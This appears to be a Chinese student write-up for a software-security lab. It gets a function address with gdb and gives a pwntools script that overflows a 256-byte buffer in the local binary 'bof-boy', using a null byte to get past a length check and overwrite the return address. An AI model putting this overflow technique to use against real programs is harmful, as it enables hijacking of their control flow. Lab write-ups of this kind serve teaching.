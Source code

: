 通过gdb去拿到target_18041()的地址：

<img src="/article/software-security(1)/hw22.png" width = 60% height = 60% />

可以看到地址是0x080486a6。

buffer的长度256+ebp的4字节+new ret构造payload，因为对buf有长度检查，所以前面要插入一个'\0'。这样去构造即可。


&emsp;&emsp;
#### Code

```python
from pwn import *

io = process('./bof-boy')

payload = 'A' + '\0' + 258*'A' + p32(0x080486a6)
io.sendline(payload)

io.interactive()
```

需要在python2下运行，python3会有“TypeError: must be str, not bytes”的错误。

结果长这样：
